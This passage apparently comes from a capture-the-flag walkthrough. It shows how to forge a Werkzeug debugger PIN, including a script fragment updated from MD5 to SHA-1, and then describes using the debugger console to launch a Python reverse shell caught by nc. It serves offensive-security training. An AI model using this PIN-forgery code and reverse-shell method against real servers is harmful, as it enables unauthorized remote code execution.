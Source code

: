         cookie_name = f"__wzd{h.hexdigest()[:20]}"
    ...[snip]...
    

The [Changelog for Werkzeug version
2.0.0](https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0)
lists this:

>   * Use SHA-1 instead of MD5 for generating ETags and the debugger pin, and
> in some tests. MD5 is not available in some environments, such as FIPS 140.
> This may invalidate some caches since the ETag will be different.
> [#1897](https://github.com/pallets/werkzeug/issues/1897)
>

The change is made
[here](https://github.com/pallets/werkzeug/commit/11ba286a1b907110a2d36f5c05740f239bc7deed#diff-83867b1c4c9b75c728654ed284dc98f7c8d4e8bd682fc31b977d122dd045178a).

I’ll update my script:

    
    
    ...[snip]...
    #h = hashlib.md5()
    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')
    
    cookie_name = '__wzd' + h.hexdigest()[:20]
    ...[snip]...
    

Now it generates a PIN that works and gives a console where I can run Python
commands:

![image-20220930074512302](https://0xdfimages.gitlab.io/img/image-20220930074512302.png)

#### Reverse Shell

With that shell, I can run OS commands with the `subprocess` module:

![image-20220930074749921](https://0xdfimages.gitlab.io/img/image-20220930074749921.png)

I’ll grab a Python reverse shell from
[revshells.com](https://www.revshells.com/), paste it into the console, and
execute it (there’s no line wrap, so only the end shows):

![image-20220930075036345](https://0xdfimages.gitlab.io/img/image-20220930075036345.png)

The reverse shell connects to my listening `nc`:

    
    